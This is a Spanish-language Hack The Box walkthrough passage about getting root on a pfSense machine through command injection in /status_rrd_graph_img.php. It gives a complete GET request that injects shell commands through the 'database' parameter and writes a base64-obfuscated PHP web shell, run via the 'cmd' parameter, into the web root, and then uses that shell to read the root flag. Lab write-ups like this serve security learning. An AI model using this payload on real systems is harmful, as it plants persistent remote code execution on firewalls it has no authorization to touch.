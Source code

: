 Si seguimos los pasos para usar el exploit, por lo menos a mi a día de hoy no funciona, si también es tu caso, sigue antento. Si vemos que es exactamente lo que hace el exploit, es loguearse e inyectar comandos en la ruta `/status_rrd_graph_img.php`. 
Usando **Burpsuite** vamos a interceptar la solicitud a esa ruta y mandarla al repeater para jugar con ella:

![Burpsuite Intercept](./1.png)

Usaremos el siguiente código para hacer la solicitud:

```
GET /status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"%3C%3Fphp+eval%28base64_decode%28%27ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg%27%29%29%3B%3F%3E">shell.php HTTP/1.1
```

Resumidamente lo que hacemos es ponernos en la ruta raíz de la web, y ahí crear un archivo `shell.php` que ejecutará los comandos que le pasemos al parámetro `cmd` de la siguiente manera:

![RCE](./2.png)

De esa manera podremos hacer un `cat /root/root.txt` para obtener la `root flag`. Preferiblemente nos deberíamos enviar una **reverse shell**, pero ya bastante me he pegado con la máquina.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/111)

---